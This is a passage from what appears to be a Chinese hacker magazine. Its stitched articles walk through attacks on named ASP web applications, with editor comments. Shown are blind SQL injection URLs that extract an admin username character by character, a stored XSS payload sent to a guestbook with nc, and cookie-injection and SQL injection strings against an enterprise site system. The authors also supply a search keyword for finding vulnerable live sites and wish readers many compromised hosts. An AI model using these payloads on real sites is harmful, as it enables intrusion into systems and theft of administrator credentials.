

classid=39%20and%20(select%20count(user2)%20from%20adminuser)>0 和 http://localhost/jy/dis_article.asp?classid=39%20and%20(select%20count(pass2)%20from%20adminuser)>0，返回正常页面。证明有 user2 和 pass2！！下面就是猜解密码了。

我们提交下：http://localhost/jy/dis_article.asp?classid=39%20and%20(select%20top%201%20len(user2)%20from%20adminuser)=5 返回正常！说明 user2 中的管理员 id 长度是等于 5 的！知道了长度就要猜内容了！提交 http://localhost/jy/dis_article.asp?classid=39%20and%20(select%20top%201%20asc(mid(user2,1,1))%20from%20adminuser)=108，说明管理员 id 中第一个字符的 ASCII 码是 108。



(为了节省时间！无聊的猜解过程就省略了！) 这里说一下。密码的猜法和这个一样！只需要把 user2 换成 pass2，我猜完的用户名的 ASCII 码是：108 106 105 97 110，用牛族字符转换下结果是：ljian！如图 5！

密码因为太长了我就没猜，大家有兴趣可以自己下下来猜一下！忽忽！我是直接去数据库看了！

## 三、尾声

去看密码后本来想给大家表演下拿 shell 可这个作者也太可恨了，没有一点共享精神！不注册的话就没后台，如图 6。



真是太可气了！哥们我的 RMB 也不多，所以没办法了！哪位兄弟要是有注册过的版本就给大家分享下！多谢了！当然这套程序的漏洞不只这一点！大家可以自己下下来练习下漏洞分析！另外给大家提供下这套程序的关键字：重庆市心心相印婚姻介绍所 版权所有！最后感谢大家观看我的文章，我的论坛 ID 是月无痕，欢迎大家与我交流！

> **编辑点评**：很简单的手工精解，算是再给大家补习一下这方面的知识，手工精解是每个脚本小子的必修课哦，忘记的或者不熟的赶快补习吧。

得好不郁闷的。找啊找，终于找到了一个大洞子，呵呵。现在我们先来看看 checkstr 函数，代码如下：

```vb
Public Function CheckStr(ByVal str)
    If IsNull(str) Then
        CheckStr = ""
        Exit Function
    End If
    str = Replace(str, Chr(0), "")
    CheckStr = Replace(str, "'", "''")
End Function
```

过滤了“'”和 16 进制的 0x00，过滤得不怎么严的，但是它只过滤了字符变量（数字变量用了 clng 等函数做强制转换！），要绕过虽然是可以的，但是比较麻烦，而且在 access 数据库上似乎没什么作为，在这里我们暂且略过。

下面我们进入今天的主题，漏洞虽然比较鸡肋，但是如果利用得好的话还是可以拿下很多站的。我们来看看 guestbook 文件夹里面的 edit.asp 文件的漏洞代码，代码如下：

```vb
......省略无关代码......
HtmlContent = Replace(HtmlContent,"{$GuestTopic}", Newasp.CheckTopic(Rs("title")))
HtmlContent = Replace(HtmlContent,"{$UserName}", Newasp.CheckTopic(Rs("username")))
HtmlContent = Replace(HtmlContent,"{$GuestEmail}", Newasp.CheckTopic(Rs("GuestEmail")))
HtmlContent = Replace(HtmlContent,"{$GuestOicq}", Newasp.CheckTopic(Rs("GuestOicq")))
HtmlContent = Replace(HtmlContent,"{$HomePage}", Newasp.CheckTopic(Rs("HomePage")))
HtmlContent = Replace(HtmlContent,"{$SelectOption}", "<option value=""" & Rs("ComeFrom") & """>" & Rs("ComeFrom") & "</option>")
//还有些类似于以上代码，这里略过，它的作用是过滤掉后台设置的字符
......省略无关代码......
Set Rs = Server.CreateObject("ADODB.Recordset")
SQL = "SELECT * FROM NC_GuestBook WHERE guestid="& guestid
Rs.Open SQL,Conn,1,3
Rs("Topicformat") = Newasp.CheckStr(Request.Form("Topicformat"))
Rs("title") = Newasp.ChkFormStr(Left(Request.Form("topic"),100))
Rs("content") = Trim(Request.Form("content"))
Rs("username") = Left(Request.Form("username"),50)
Rs("face") = Trim(Request.Form("face"))
Rs("emot") = Trim(Request.Form("emot"))
Rs("HomePage") = Newasp.CheckStr(Left(Request.Form("HomePage"),100))
Rs("GuestEmail") = Newasp.CheckStr(Trim(Request.Form("GuestEmail")))
Rs("GuestOicq") = Newasp.CheckStr(Left(Request.Form("GuestOicq"),30))
Rs("ComeFrom") = Trim(Request.Form("ComeFrom"))
Rs("isAdmin") = Newasp.ChkNumeric(Request.Form("isAdmin"))
Rs("isTop") = Newasp.ChkNumeric(Request.Form("isTop"))
Rs("isAccept") = Newasp.ChkNumeric(Request.Form("isAccept"))
Rs("ForbidReply") = Newasp.ChkNumeric(Request.Form("ForbidReply"))
Rs.update
Rs.Close:Set Rs = Nothing
......省略无关代码......
```

在入库的时候，几乎所有变量都被函数 Checkstr 和 ChkNumeric 过滤掉了，我们来看看 ChkNumeric 函数的代码，代码如下：

```vb
Public Function ChkNumeric(ByVal CHECK_ID)
    If CHECK_ID <> "" And IsNumeric(CHECK_ID) Then
        CHECK_ID = CLng(CHECK_ID)
        If CHECK_ID < 0 Then CHECK_ID = 0
    Else
        CHECK_ID = 0
    End If
    ChkNumeric = CHECK_ID
End Function
```

原来，它的作用是用来检测数字变量是否是数字，这个函数比 Checkstr 函数厉害多了，呵呵。我们再来看 edit.asp 的代码，代码中除 content、face、emot、ComeFrom 这几个函数外，其他函数都做了过滤，可以跨站，我们选 emot 变量做示范，先进入客户留言，发表留言，然后抓包，如图 1。

抓到的数据如下：

```http
POST /Guestbook/write.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://localhost/GuestBook/write.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Maxthon)
Host: localhost
Content-Length: 353
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: PJBlog2setting=ViewType=normal;usercookies%5F111asd@ddd.com&GuestOicq=1245454511&HomePage=http%3A%2F%2Fasdasdasdsadasdsa1111&ComeFrom=%C4%DA%C3%C9%B9%C5&Face=1.gif&emot=&topic=asdsadsadsadsagg111%60%60%60%60ggss&
ASPSESSIONIDSSTSCADQ=HCHLMMKAAEHIMIDEAEKDAEP

action=save&guestid=&username=asdasd333rrr&GuestEmail=111asd@ddd.com&GuestOicq=1245454511&HomePage=http%3A%2F%2Fasdasdasdsadasdsa1111&ComeFrom=%C4%DA%C3%C9%B9%C5&Face=1.gif&emot=&topic=asdsadsadsadsagg111%60%60%60%60ggss&Topicformat=&content=asdsadsadsadsasa@@@@@@@@@@&selectFont=%D7%D6%CC%E5&D2=%D7%D6%CC%E5%B4%F3%D0%A1&Submit=%B7%A2%B1%ED%D0%C2%C2%C1%F4%D1%D4
```

我们把 emot 变量改为 "><script>alert("x-key")</script>"，然后修改 Content-Length，用 nc 提交（nc -vv 127.0.0.1 80<1.txt > 1.htm），生成的 1.htm 返回成功的消息框，如图 2。



图 2 提交成功

我们现在来看看留言本有没有跨站的窗口。咦？怎么没有弹出窗口呢？我们再进后台看看，如图 3，嘿嘿在这里呢。

原来是要审核的，我们审核看看，呵呵，弹出消息框了，如



图 3 审核



所以说这个漏洞要利用社会工程学。我们看到刚发布的留言有些是 HTML 代码，你可以把它完善一下或用 JS 来控制，这里我就不演示了。
还有一个可以耍酷的玩法，我就不在这里讲解了，大家可以去看动画。就到这里吧，大家如果还有什么问题可以到 Nohack 论坛找我，我的 ID 是“臭巴子”，我们下次见。

还有就是我今年是初三下学期了，要中考了，在 7 月份之前我都不能再给大家写文章了。7 月之后，如果我考上了重点，我一定会为大家带来更精彩的文章，大家快祈祷我能考上重点吧！

> （作者的动画已经收录在光盘里）
**编辑点评：** 前两期我们刊登了两篇关于新云文章系统漏洞的，小作者再接再厉，又发现一个小漏洞，虽然只能跨站，但是作者分析的过程和思路还是不错的；另外这个 15 岁的小孩比起我们当年，那可厉害得多哦（小编：我 15 岁还不晓得电脑长什么样呢），能静下心来看代码，分析漏洞，只要能坚持，将来必成大器！

# 对网域企业网站管理系统的分析

从本文你可以学到：

- 1、网域企业网站管理系统漏洞分析
- 2、该漏洞的具体应用

## 1、前言

今天和女朋友约好去买衣服，谁知道女朋友放我鸽子，只好自己去买了！回家后实在是没什么事情做，在网上乱转，刚好看见一套程序界面很不错，于是就把它下下来打算看下代码，就算是对自己学习成绩的检验了。

## 2、进入主题



打开程序，随便点了一个连接，是公布新闻的，在 URL 后面加了个单引号 ('), 谁知却出现了图 1 的情况！
看来是做了限制，于是跑过去看了下代码：

```asp
<!--#include File="inc/Check_Sql.asp"-->
<!--#include file="inc/conn.asp"-->
<!--#include file="inc/Skin_css.asp"-->
<!--#include file="inc/config.asp"-->
<!--#include file="Head.asp"-->
<!--#include file="inc/Function.asp"-->
<%owen=request("id")%>
<SCRIPT language=JavaScript>
var currentpos,timer;
代码略.....
<%
id=cstr(request("id"))
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&id
conn.execute sql
sql="select * from news where id="&owen
rsnews.Open sql,conn,1,1
```

虽然是没有过滤直接带入 sql 语句查询，但是文件中却包含了 Check_Sql.asp 防注文件，看来直接注入是不行了，只能用 cookies 注入了 (原理不说了，前面有朋友都写过了！), 我们首先去掉这个页面原来的地址，换成 javascript:alert(document.cookie="id="+escape("66 and 1=1")); 点回车如图 2。

然后我们再访问 http://localhost/wygs/shownews.asp, 发现返回了和原来一样的页面，如图 3。



我们再提交 javascript:alert(document.cookie="id="+escape("66 and 1=2")), 然后再访问 http://localhost/wygs/shownews.asp, 却出现了错误页面，说明我们 cookie 注入成功了。下面我们需要的就是猜解帐号密码那些了，这里就给出命令格式，不再演示了，因为后面还有其它的！



命令：javascript:alert(document.cookie="id="+escape("[这就是 asp? id=xx 后面的 xx 代表的数字] and [这里修改成猜解命令]"));

cookie 注入这个方法毕竟太麻烦了，我在测试的时候，就老是出错，对于新手朋友来说显然是不合适，那么下面这个地方就肯定合您的胃口了。

第 2 个注入点，产生于 CompHonorBig.asp 了！我们先来看看代码：

```asp
<!--#include file="Inc/conn.asp"-->
<%dim id '月月注释——定义变量 ID
id=request.QueryString("id")%>
'月月注释——没有经过过滤就用 request.QueryString 方法取得客户段提交的数据并且变量 ID 参与了 sql 查询
HTML 代码省略......
<%
```

```
asp
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from CompHonor where id="&id;conn,1,1
%>
```

很明显，这个文件中没有包含哪个防注的程序，那么这就很简单了，正常的 SQL 注入就可以搞定了！去



测试下，这个文件对应的是企业荣誉这个栏目 http://localhost/wygs/CompHonorBig.asp?id=15，我们在后面加上单引号(')如图 4。

没问题，下面来进行下猜解，http://localhost/wygs/CompHonorBig.asp?id=15%20and%20(select%20count(*)%20from%20admin)>0，为了节省时间，我直接看了数据库，知道有 admin 表，返回页面正常。

http://localhost/wygs/CompHonorBig.asp?id=15%20and%20(select%20count(username)%20from%20admin)>0, http://localhost/wygs/CompHonorBig.asp?id=15%20and%20(select%20count(password)%20from%20admin)>0,都返回正常，说明存在这两个字段。下面就是账号密码咯！节省下黑手版面不演示了，忽忽！



## 3、进后台拿 shell

本来是想给大家拿 shell 的，可是这作者太小气了，我下的这个版本是未注册的，里面 N 多功能不能用，不过我看了下，拿 shell 很简单，后台功能很齐全！如图 5。

## 4、结尾

后面我看了下 coon.asp 文件不能利用，但是数据库没做防下载处理，而且这个程序还有套 SQL 版本，漏洞也一样存在，相信 SQL 版本的大家利用起来会更加方便，最后祝大家愚人节玩得开心，肉鸡多多！！

**编辑点评：**在明显的 SQL 注射漏洞逐渐消失的今天，cookies 注入显得越来越好用了，如果能熟练掌握，和以前经典的 SQL 注射别无二致；而要想真正掌握更多知识的你，是肯定不能错过这个学习机会的，还没有掌握的朋友可以通过看文章、查资料恶补一下；已经掌握的朋友再看看别人的文章，看看有没有值得你学习的地方，要是你觉得自己方法更好，为什么不写稿子来和大家分享呢？

# 拓宽 NBSI 的注入范围

寂寞的刺猬 [L.S.T]

老 C 首语：4 月来了，又到愚人节。如果是善意的玩笑，相信捉弄者与被捉弄者都会释怀，这种情况就像多数黑客入侵后会给管理员一个提醒而不是破坏主机；如果是恶意的，旁观者除了叹一句太有才了，还要看事态的发展了。捉弄与被捉弄，永远是入侵与防御互相的游戏，这期栏目的文章就是这种关系的反映，作者的水平如何，读者就旁观吧。

## 从本文中你可以学到：

- xmlhttp 组件的用法、及一种转换的 SQL injection 方法。

平常使用 NBSI 的 POST 注入，对付一些简单的 POST 注入点，还绰绰有余，但如果碰到的是一个复杂的注入点，比如提交的数据中既有 GET 又有 POST，在这两种方式混合之下，NBSI 就心有余而力不足了。如何让 NBSI 真正实现 GET 与 POST 通吃呢？前两天，我研究完 LT 的一段 PHP 数据转发脚本后，恍然大悟，原来使用数据转发就可以实现 GET 与 POST 分离了，用这个脚本作为一个中转站，就能让 NBSI 左右通吃了。但 LT 的脚本是 PHP 代码，对我等小菜来讲，在 WINXP 上搭建一个 PHP 平台还有些困难，何不创建一个 ASP 版本的数据转发，造福于各位呢？

要想实现数据转发，就要找到和 PHP 发送数据的函数“FsockOpen”相类似的 ASP 函数，耗费了我十分五十三秒的时间，终于找到了一个和“FsockOpen”相类似的东西，它就是 XMLHTTP。

